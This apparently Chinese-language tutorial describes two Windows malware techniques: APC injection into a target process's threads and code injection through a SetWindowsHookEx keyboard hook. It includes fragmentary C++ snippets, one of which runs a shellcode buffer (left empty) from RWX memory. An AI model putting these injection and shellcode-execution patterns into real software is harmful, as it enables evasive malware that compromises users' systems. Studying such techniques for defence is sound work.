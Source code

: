 ### apc 注入

#### 介绍

APC（Asynchronous Procedure Call）注入是一种基于 Windows 操作系统的高级漏洞利用技术，通常用于绕过安全防护措施，执行恶意代码。其原理如下：

1.  APC 注册：在目标进程中创建一个用户模式线程，并将其关联到一个合法的可执行函数或 API 回调函数。
    
2.  注入：攻击者将恶意代码加载到目标进程的虚拟地址空间中，通常使用远程线程注入、DLL 注入等方法。
    
3.  触发 APC：攻击者在目标进程的上下文中，使用 QueueUserAPC 函数将用户模式线程与恶意代码关联，将其添加到被攻击者的执行队列中。
    
4.  执行：当目标进程执行到特定的同步点时，即进入了 ALERTABLE 状态（如进入等待状态、等待用户输入等），执行队列中的用户模式线程得到执行并执行恶意代码。
    

APC 注入利用了 Windows 操作系统的异步过程调用机制，通过向进程中注入线程，并在指定时机触发线程执行，从而实现执行恶意代码的目的。由于 APC 是在目标进程的上下文中执行，所以可以绕过一些安全防护措施，使恶意代码不易被检测和阻止。

需要注意的是，APC 注入是一种高级的攻击技术，需要深入了解操作系统和漏洞利用原理才能正确实施。在合法场景下使用或研究 APC 注入，请确保符合法律规定，并遵循合规的安全测试流程。

#### 具体实现代码

既然是注入每一个线程，自然要有一个循环，循环每一个线程：

```bash
for (DWORD threadId : threadIds) {
        threadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
        QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
        Sleep(1000 * 2);
    }
```

其他的代码和别的加载方式并没太大差别。当然还有 apc 注入 earlybird 版本，建议自行研究了。

### HOOK 键盘 SetWindowHookEx 代码注入

​ 这个就稍微有点难度了，但仔细研究并没多难。Windows 允许程序使用`SetWindowHookEx`安装钩子来监控各种系统事件，如鼠标点击和键盘按键。

1.  一个载荷
2.  创建一个恶意程序
3.  解析地址，挂钩
4.  键盘输入内容，加载恶意载荷。

#### 代码

```bash
HMODULE library = LoadLibraryA("Dll1.dll");
    HOOKPROC hookProc = (HOOKPROC)GetProcAddress(library, "spotlessExport");

    HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, hookProc, library, 0);
    Sleep(10 * 1000);
    UnhookWindowsHookEx(hook);
```

而在 dll 里：

```bash
extern "C" __declspec(dllexport) int spotlessExport() {
    unsigned char shellcode[] = "";

    void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof shellcode);
    ((void(*)())exec)();
```
